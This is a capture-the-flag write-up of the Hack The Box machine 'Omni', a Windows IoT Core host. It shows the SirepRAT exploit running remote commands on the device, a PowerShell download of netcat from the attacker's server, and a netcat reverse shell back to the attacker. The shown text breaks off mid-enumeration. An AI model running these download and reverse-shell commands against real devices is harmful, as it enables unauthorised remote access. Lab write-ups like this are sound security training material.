# HTB - Omni

## Overview



Short description to include any strange things to be dealt with

## Useful Skills and Tools

#### Useful thing 1

* description with generic example

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.204`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni]
└─$ sudo nmap -sSCV -p- -n -v -oA omni 10.10.10.204
[sudo] password for zweilos: 
\Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 19:15 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:15
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE: Active NSE Script Threads: 1 (0 waiting)
NSE Timing: About 0.00% done
Completed NSE at 19:15, 0.00s elapsed
Initiating NSE at 19:15
Completed NSE at 19:15, 0.00s elapsed
Initiating NSE at 19:15
Completed NSE at 19:15, 0.00s elapsed
Initiating Ping Scan at 19:15
Scanning 10.10.10.204 [4 ports]
Completed Ping Scan at 19:15, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:15
Scanning 10.10.10.204 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.204
Discovered open port 135/tcp on 10.10.10.204
SYN Stealth Scan Timing: About 19.86% done; ETC: 19:18 (0:02:05 remaining)
Discovered open port 29819/tcp on 10.10.10.204
SYN Stealth Scan Timing: About 45.73% done; ETC: 19:17 (0:01:12 remaining)
Discovered open port 29817/tcp on 10.10.10.204
SYN Stealth Scan Timing: About 67.06% done; ETC: 19:17 (0:00:45 remaining)
Discovered open port 29820/tcp on 10.10.10.204
Discovered open port 5985/tcp on 10.10.10.204
Completed SYN Stealth Scan at 19:17, 128.02s elapsed (65535 total ports)
Initiating Service scan at 19:17
Scanning 6 services on 10.10.10.204
Completed Service scan at 19:18, 65.66s elapsed (6 services on 1 host)
NSE: Script scanning 10.10.10.204.
Initiating NSE at 19:18
Completed NSE at 19:18, 7.08s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.23s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Nmap scan report for 10.10.10.204
Host is up (0.042s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.80%I=7%D=10/12%Time=5F84E412%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Initiating NSE at 19:18
Completed NSE at 19:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.47 seconds
           Raw packets sent: 131163 (5.771MB) | Rcvd: 105 (4.816KB)
```

There were a few standard Windows ports such as 135 - RPC, 3895 - Windows Remote Management, as well as a web server hosted on port 8080. There were also a few ports in the 29000 range that I did not recognize, including one that was identified by nmap as `ARCserve Discovery`.

I started out my enumeration with the web server on port 8080.





"Windows Device Portal" - Needs credentials to log in

[https://www.blackhat.com/docs/us-16/materials/us-16-Sabanal-Into-The-Core-In-Depth-Exploration-Of-Windows-10-IoT-Core-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Sabanal-Into-The-Core-In-Depth-Exploration-Of-Windows-10-IoT-Core-wp.pdf)

> You can login to the Windows Device Portal using the default Administrator credentials \(User name: Administrator, Password: p@ssw0rd\).

unfortunately the owners have changed the default password

[https://www.thomasmaurer.ch/2015/06/how-to-connect-to-windows-10-iot-core-via-powershell/](https://www.thomasmaurer.ch/2015/06/how-to-connect-to-windows-10-iot-core-via-powershell/)

```text
┌──(zweilos㉿kali)-[~/htb/omni]
└─$ pwsh                                                             
PowerShell 7.0.0
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/zweilos/htb/omni> Enter-PSSession -ComputerName 10.10.10.204 -Credential 10.10.10.204\Administrator

PowerShell credential request
Enter your credentials.                                              
Password for user 10.10.10.204\Administrator: ********
Enter-PSSession: MI_RESULT_ACCESS_DENIED
```

denied again...I need to find the password to continue

[https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/)

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 --help                                                          2 ⨯
usage: SirepRAT.py target_device_ip command_type [options]

Exploit Windows IoT Core's Sirep service to execute remote commands on the device

positional arguments:
  target_device_ip      The IP address of the target IoT Core device
  command_type          The Sirep command to use. Available commands are listed below

optional arguments:
  -h, --help            show this help message and exit
  --return_output       Set to have the target device return the command output stream
  --cmd CMD             Program path to execute
  --as_logged_on_user   Set to impersonate currently logged on user on the target device
  --args ARGS           Arguments string for the program
  --base_directory BASE_DIRECTORY
                        The working directory from which to run the desired program
  --remote_path REMOTE_PATH
                        Path on target device
  --data DATA           Data string to write to file
  --v                   Verbose - if printable, print result
  --vv                  Very verbose - print socket buffers and more

available commands:
*       LaunchCommandWithOutput
*       PutFileOnDevice
*       GetFileFromDevice
*       GetSystemInformationFromDevice
*       GetFileInformationFromDevice

remarks:
-       Use moustaches to wrap remote environment variables to expand (e.g. {{userprofile}})

Usage example: python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path C:\Windows\System32\hostname.exe

┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice
<SystemInformationResult | type: 51, payload length: 32, kv: {'wProductType': 0, 'wServicePackMinor': 2, 'dwBuildNumber': 17763, 'dwOSVersionInfoSize': 0, 'dwMajorVersion': 10, 'wSuiteMask': 0, 'dwPlatformId': 2, 'wReserved': 0, 'wServicePackMajor': 1, 'dwMinorVersion': 0, 'szCSDVersion': 0}>
```

There aren't a lot of useful files that have known locations on a windows machine so I tried to grab the hosts file in `C:\Windows\System32\drivers\etc\`

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
---------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost

---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<FileResult | type: 31, payload length: 824, payload peek: '# Copyright (c) 1993-2009 Microsoft Corp.## Th'>
```

Next I had to try running commands to see what privileges I actually had

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c set" --v                                                                  
---------
ALLUSERSPROFILE=C:\Data\ProgramData
APPDATA=C:\Data\Users\System\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=omni
ComSpec=C:\windows\system32\cmd.exe
DriverData=C:\Windows\System32\Drivers\DriverData
LOCALAPPDATA=C:\Data\Users\System\AppData\Local
NUMBER_OF_PROCESSORS=4
OS=Windows_NT
Path=C:\windows\system32;C:\windows;C:\windows\System32\OpenSSH\;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=0102
ProgramData=C:\Data\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PUBLIC=C:\Data\Users\Public
SystemDrive=C:
SystemRoot=C:\windows
TEMP=C:\Data\SystemData\Temp
TMP=C:\Data\SystemData\Temp
USERDOMAIN=WORKGROUP
USERNAME=omni$
USERPROFILE=C:\Data\Users\System
windir=C:\windows

---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 1151, payload peek: 'ALLUSERSPROFILE=C:\Data\ProgramDataAPPDATA=C:\Da'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
```

First I ran the `set` command, which returned a list of the local environment variables

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c set" --v
---------
AllUsersProfile=C:\Data\ProgramData
APPDATA=C:\Data\Users\DefaultAccount\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=omni
ComSpec=C:\windows\system32\cmd.exe
DriverData=C:\Windows\System32\Drivers\DriverData
LOCALAPPDATA=C:\Data\Users\DefaultAccount\AppData\Local
NUMBER_OF_PROCESSORS=4
OS=Windows_NT
Path=C:\windows\system32;C:\windows;C:\windows\System32\OpenSSH\;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\;C:\Data\Users\DefaultAccount\AppData\Local\Microsoft\WindowsApps
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=0102
ProgramData=C:\Data\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PUBLIC=C:\Data\Users\Public
SystemDrive=C:
SystemRoot=C:\windows
TEMP=C:\Data\Users\DefaultAccount\AppData\Local\Temp
TMP=C:\Data\Users\DefaultAccount\AppData\Local\Temp
USERDOMAIN=OMNI
USERNAME=DefaultAccount
USERPROFILE=C:\Data\Users\DefaultAccount
windir=C:\windows

---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 1292, payload peek: 'AllUsersProfile=C:\Data\ProgramDataAPPDATA=C:\Da'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
```

Next I ran the same command to see if there was any difference in using the `--as_logged_on_user` flag. I noticed that there seemed to be a user called "DefaultAccount" logged in

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " -c whoami /all" --v
---------
Microsoft Windows [Version 10.0.17763.107]
Copyright (c) Microsoft Corporation. All rights reserved.

C:\windows\system32>
---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 125, payload peek: 'Microsoft Windows [Version 10.0.17763.107]Copyri'>
```

My context seems to be running commands as System, so this should be a quick and easy win...right? \(failed to notice this was still "logged on user"\)

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe" --v 
---------
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.


---------
---------
PS C:\windows\system32> 
---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 82, payload peek: 'Windows PowerShell Copyright (C) Microsoft Corpo'>
<OutputStreamResult | type: 11, payload length: 24, payload peek: 'PS C:\windows\system32> '>
```

A little bit of testing shows that I can run PowerShell

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c PowerShell.exe wget http://10.10.15.105:8099/nc64.exe -Outfile nc64.exe" --v
---------
wget : The term 'wget' is not recognized as the name of a cmdlet, function, 
script file, or operable program. Check the spelling of the name, or if a path 
was included, verify that the path is correct and try again.
At line:1 char:1
+ wget http://10.10.15.105:8099/nc.exe -Outfile nc.exe
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (wget:String) [], CommandNotFoun 
   dException
    + FullyQualifiedErrorId : CommandNotFoundException


---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 462, payload peek: 'wget : The term 'wget' is not recognized as the na'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
```

wget as an alias is not configured...this may be a limited version of PowerShell

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c PowerShell.exe Invoke-WebRequest http://10.10.15.105:8099/nc.exe -Outfile nc.exe" --v 
---------
Invoke-WebRequest : Access to the path 'C:\windows\system32\nc.exe' is denied.
At line:1 char:1
+ Invoke-WebRequest http://10.10.15.105:8099/nc.exe -Outfile nc.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Invoke-WebRequest], Unauthori 
   zedAccessException
    + FullyQualifiedErrorId : System.UnauthorizedAccessException,Microsoft.Pow 
   erShell.Commands.InvokeWebRequestCommand


---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 469, payload peek: 'Invoke-WebRequest : Access to the path 'C:\windows'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
```

so maybe I am not running as System as thought, since I was unable to write to the System32 folder \(the folder I was in by default.\)

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c PowerShell.exe mkdir C:\temp" --v                              
<HResultResult | type: 1, payload length: 4, HResult: 0x0>

┌──(zweilos㉿kalimaa)-[~]
└─$ python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...

10.10.10.204 - - [29/Oct/2020 19:25:22] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.204 - - [29/Oct/2020 19:26:35] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.204 - - [29/Oct/2020 19:27:25] "GET /nc.exe HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c PowerShell.exe Invoke-WebRequest http://10.10.15.105:8099/nc.exe -Outfile C:\temp\nc.exe" --v
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```

Since I could not write to the current folder, I simply made a temp directory and uploaded my nc.exe there

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c PowerShell.exe  C:\temp\nc64.exe 10.10.15.105 55541 -e Powershell.exe" --v
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```

After uploading netcat to the `temp` folder I created I sent a reverse shell back to my machine

## Initial Foothold

## Road to User

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni]
└─$ nc -lvnp 55541        
listening on [any] 55541 ...
^[[Aconnect to [10.10.15.105] from (UNKNOWN) [10.10.10.204] 49711
Windows PowerShell                                                                                      
Copyright (C) Microsoft Corporation. All rights reserved.                                               
                   whoami' is not recognized as the name of a cmdlet,                                   
function, script file, or operable program. Check the spelling of the name, or                          
if a path was included, verify that the path is correct and try again.                                  
Atwhoami /allr:1                                                                                        
+ ~~~~~~~~~                                    whoami:String) [], CommandNo                             
   tFoundException          : ObjectNotFound: (                                                         
    + FullyQualifiedErrorId : CommandNotFoundException                                                  

PS C:\windows\system32>
```

Ok...so my shell is a little shaky...and whoami is not installed

```text
PS C:\Windows\system32> ls env:
ls env:

Name                           Value                                           
----                           -----                                           
ALLUSERSPROFILE                C:\Data\ProgramData                             
APPDATA                        C:\Data\Users\System\AppData\Roaming            
CommonProgramFiles             C:\Program Files\Common Files                   
CommonProgramFiles(x86)        C:\Program Files (x86)\Common Files             
CommonProgramW6432             C:\Program Files\Common Files                   
COMPUTERNAME                   omni                                            
ComSpec                        C:\windows\system32\cmd.exe                     
DriverData                     C:\Windows\System32\Drivers\DriverData          
LOCALAPPDATA                   C:\Data\Users\System\AppData\Local              
NUMBER_OF_PROCESSORS           4                                               
OS                             Windows_NT                                      
Path                           C:\windows\system32;C:\windows;C:\windows\Sys...
PATHEXT                        .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;....
PROCESSOR_ARCHITECTURE         AMD64                                           
PROCESSOR_IDENTIFIER           AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
PROCESSOR_LEVEL                23                                              
PROCESSOR_REVISION             0102                                            
ProgramData                    C:\Data\ProgramData                             
ProgramFiles                   C:\Program Files                                
ProgramFiles(x86)              C:\Program Files (x86)                          
ProgramW6432                   C:\Program Files                                
PROMPT                         $P$G                                            
PSMODULEPATH                   C:\Data\Users\System\Documents\WindowsPowerSh...
PUBLIC                         C:\Data\Users\Public                            
SystemDrive                    C:                                              
SystemRoot                     C:\windows                                      
TEMP                           C:\Data\SystemData\Temp                         
TMP                            C:\Data\SystemData\Temp                         
USERDOMAIN                     WORKGROUP                                       
USERNAME                       omni$                                           
USERPROFILE                    C:\Data\Users\System                            
windir                         C:\windows
```

Since I couldn't use `whoami` I used `ls env:` to once again check the environment variables to see who I was. I seemed to be the user `omni$`.

```text
PS C:\Data\Users> ls
ls


    Directory: C:\Data\Users


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----         7/4/2020   9:48 PM                administrator                 
d-----         7/4/2020   9:53 PM                app                           
d-----       10/29/2020  11:51 PM                DefaultAccount                
d-----         7/3/2020  11:22 PM                DevToolsUser                  
d-r---        8/21/2020   1:55 PM                Public                        
d-----       10/29/2020   8:35 PM                System                        


PS C:\Data\Users> cd administrator
cd administrator
PS C:\Data\Users\administrator> ls
ls


    Directory: C:\Data\Users\administrator


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---         7/3/2020  11:23 PM                3D Objects                    
d-r---         7/3/2020  11:23 PM                Documents                     
d-r---         7/3/2020  11:23 PM                Downloads                     
d-----         7/3/2020  11:23 PM                Favorites                     
d-r---         7/3/2020  11:23 PM                Music                         
d-r---         7/3/2020  11:23 PM                Pictures                      
d-r---         7/3/2020  11:23 PM                Videos                        
-ar---         7/4/2020   9:48 PM           1958 root.txt                      


PS C:\Data\Users\administrator> type root.txt
type root.txt
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">flag</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb0100000011d9a9af9398c648be30a7dd764d1f3a000000000200000000001066000000010000200000004f4016524600b3914d83c0f88322cbed77ed3e3477dfdc9df1a2a5822021439b000000000e8000000002000020000000dd198d09b343e3b6fcb9900b77eb64372126aea207594bbe5bb76bf6ac5b57f4500000002e94c4a2d8f0079b37b33a75c6ca83efadabe077816aa2221ff887feb2aa08500f3cf8d8c5b445ba2815c5e9424926fca73fb4462a6a706406e3fc0d148b798c71052fc82db4c4be29ca8f78f0233464400000008537cfaacb6f689ea353aa5b44592cd4963acbf5c2418c31a49bb5c0e76fcc3692adc330a85e8d8d856b62f35d8692437c2f1b40ebbf5971cd260f738dada1a7</SS>
    </Props>
  </Obj>
</Objs>
```

I was able to enter the Administrator folder and use `type` to get the contents of the `root.txt` flag, but it did not contain the contents I expected. It seemed to be a PowerShell credential object written to a file.

```text
PS C:\Data\Users\administrator> type root.txt
type root.txt
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">flag</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb0100000011d9a9af9398c648be30a7dd764d1f3a000000000200000000001066000000010000200000004f4016524600b3914d83c0f88322cbed77ed3e3477dfdc9df1a2a5822021439b000000000e8000000002000020000000dd198d09b343e3b6fcb9900b77eb64372126aea207594bbe5bb76bf6ac5b57f4500000002e94c4a2d8f0079b37b33a75c6ca83efadabe077816aa2221ff887feb2aa08500f3cf8d8c5b445ba2815c5e9424926fca73fb4462a6a706406e3fc0d148b798c71052fc82db4c4be29ca8f78f0233464400000008537cfaacb6f689ea353aa5b44592cd4963acbf5c2418c31a49bb5c0e76fcc3692adc330a85e8d8d856b62f35d8692437c2f1b40ebbf5971cd260f738dada1a7</SS>
    </Props>
  </Obj>
</Objs>
PS C:\Data\Users\administrator> $credential = Import-CliXml root.txt
$credential = Import-CliXml root.txt
Import-CliXml : Error occurred during a cryptographic operation.
At line:1 char:15
+ $credential = Import-CliXml root.txt
+               ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], Cryptographic 
   Exception
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicExcept 
   ion,Microsoft.PowerShell.Commands.ImportClixmlCommand

PS C:\Data\Users\administrator> $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt
$credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt
Import-CliXml : Error occurred during a cryptographic operation.
At line:1 char:15
+ ... credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt
+                  ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], Cryptographic 
   Exception
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicExcept 
   ion,Microsoft.PowerShell.Commands.ImportClixmlCommand
```

I tried importing the credential information to see if I could directly use it, but it gave me a an error message stating that an "Error occurred during a cryptographic operation."

* [https://social.msdn.microsoft.com/Forums/sqlserver/en-US/cfd1cfd8-cbeb-42eb-b8bd-68f4d8b451f1/convertfromsecurestring-throws-a-cryptographicexception-in-windows-iot?forum=WindowsIoT](https://social.msdn.microsoft.com/Forums/sqlserver/en-US/cfd1cfd8-cbeb-42eb-b8bd-68f4d8b451f1/convertfromsecurestring-throws-a-cryptographicexception-in-windows-iot?forum=WindowsIoT)
* [https://sodocumentation.net/powershell/topic/2917/handling-secrets-and-credentials](https://sodocumentation.net/powershell/topic/2917/handling-secrets-and-credentials)

AFter doing some reading, it looked like I needed to find a key

```text
PS C:\Data\Users\administrator> net users
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            app                      DefaultAccount           
DevToolsUser             Guest                    sshd                     
WDAGUtilityAccount       
The command completed with one or more errors.
```

sshd? interesting

```text
PS C:\Data\Users> cd app
cd app
PS C:\Data\Users\app> ls
ls


    Directory: C:\Data\Users\app


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---         7/4/2020   7:28 PM                3D Objects                    
d-r---         7/4/2020   7:28 PM                Documents                     
d-r---         7/4/2020   7:28 PM                Downloads                     
d-----         7/4/2020   7:28 PM                Favorites                     
d-r---         7/4/2020   7:28 PM                Music                         
d-r---         7/4/2020   7:28 PM                Pictures                      
d-r---         7/4/2020   7:28 PM                Videos                        
-ar---         7/4/2020   8:20 PM            344 hardening.txt                 
-ar---         7/4/2020   8:14 PM           1858 iot-admin.xml                 
-ar---         7/4/2020   9:53 PM           1958 user.txt                      


PS C:\Data\Users\app> type user.txt    
type user.txt
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">flag</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009e131d78fe272140835db3caa288536400000000020000000000106600000001000020000000ca1d29ad4939e04e514d26b9706a29aa403cc131a863dc57d7d69ef398e0731a000000000e8000000002000020000000eec9b13a75b6fd2ea6fd955909f9927dc2e77d41b19adde3951ff936d4a68ed750000000c6cb131e1a37a21b8eef7c34c053d034a3bf86efebefd8ff075f4e1f8cc00ec156fe26b4303047cee7764912eb6f85ee34a386293e78226a766a0e5d7b745a84b8f839dacee4fe6ffb6bb1cb53146c6340000000e3a43dfe678e3c6fc196e434106f1207e25c3b3b0ea37bd9e779cdd92bd44be23aaea507b6cf2b614c7c2e71d211990af0986d008a36c133c36f4da2f9406ae7</SS>
    </Props>
  </Obj>
</Objs>
```

In the folder `C:\Data\Users\app` I found the `user.txt` flag, but it was also encrypted the same way as the `root.txt`.

```text
PS C:\Data\Users\app> type hardening.txt
type hardening.txt
type : Access to the path 'C:\Data\Users\app\hardening.txt' is denied.
At line:1 char:1
+ type hardening.txt
+ ~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Data\Users\app\hardening.t 
   xt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsof 
   t.PowerShell.Commands.GetContentCommand

PS C:\Data\Users\app> get-acl hardening.txt
get-acl hardening.txt


    Directory: C:\Data\Users\app


Path          Owner              Access                                        
----          -----              ------                                        
